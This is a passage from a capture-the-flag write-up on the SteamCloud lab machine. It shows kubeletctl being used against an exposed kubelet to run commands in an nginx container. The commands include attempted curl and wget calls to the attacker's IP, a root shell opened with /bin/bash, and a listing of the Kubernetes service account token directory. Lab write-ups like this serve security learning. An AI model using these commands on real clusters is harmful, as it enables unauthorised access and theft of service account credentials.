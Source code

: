 It doesn’t seem to handle the pipes well.

Neither `curl` nor `wget` seem to be in the container:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "curl 10.10.14.6" -p nginx -c nginx
OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"curl\": executable file not found in $PATH": unknown
command terminated with exit code 126
oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "wget 10.10.14.6" -p nginx -c nginx
OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"wget\": executable file not found in $PATH": unknown
command terminated with exit code 126

```

`nc`, `python`, and `python3` aren’t either.

### Shell
*Update 15 Sept 2022: Big thanks to GhostNinja who pointed this out to me.*

It turns out there’s a much simpler way to get a shell - just issue the `bash` (or `sh`) command:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
root@nginx:/# id
uid=0(root) gid=0(root) groups=0(root)

```

This command is listed on the [HackTricks page for Kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/pentesting-kubernetes-from-the-outside?q=kubeletctr#kubelet-rce). As I failed to get a shell when initially solving the box, the rest of the writeup is operating without this.

## File System as root on SteamCloud

### Enumeration

#### nginx Container

[This page](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/enumeration-from-a-pod) from HackTricks shows the location of the ServiceAccount object, which is managed by Kubernetes and provides identity within the pod. It gives three typical directories:
- `/run/secrets/kubernetes.io/serviceaccount`
- `/var/run/secrets/kubernetes.io/serviceaccount`
- `/secrets/kubernetes.io/serviceaccout`

In this case, it’s the first one:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
ca.crt  namespace  token

```
